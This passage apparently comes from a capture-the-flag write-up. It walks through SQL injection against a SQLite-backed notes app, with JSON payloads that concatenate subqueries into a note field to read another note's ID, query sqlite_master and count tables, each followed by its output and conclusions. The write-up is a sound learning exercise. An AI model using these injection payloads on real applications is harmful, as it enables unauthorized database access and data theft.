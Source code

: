 - Now we'll check if we can print second note's ID instead.

> **Note!** Received IDs, passwords and encrypted messages change upon each container relaunch! The outputs provided in this file simply contain my results from the challenge.

### `second_note.json`
```json
{
  "2003": {
    "encrypted": 0,
    "note": "' + (SELECT id FROM notes LIMIT 1 OFFSET 1) + '",
    "title": "Second note ID"
  }
}
```
#### Output
```
715
```
#### Conclusions
Printing second note's ID was successful, which means that we can access the entirety `notes` table.

### `table_attempt.json`
```json
{
  "2004": {
    "encrypted": 0,
    "note": "' + (SELECT name FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%') + '",
    "title": "Tables names"
  }
}
```
#### Output
```
0
```
#### Conclusions
Printing the names of the tables was not successful, it returned 0 instead. That's where my first assumption came that I might have to modify my injection to get the desired result. 

### `table_count.json`
```json
{
  "2005": {
    "encrypted": 0,
    "note": "' + (SELECT count(*) FROM sqlite_master WHERE type='table') + '",
    "title": "Tables count"
  }
}
```
#### Output
```
3
```
#### Conclusions
Printing the number of tables was successful, which means that we can actually access the data in `sqlite_master`.
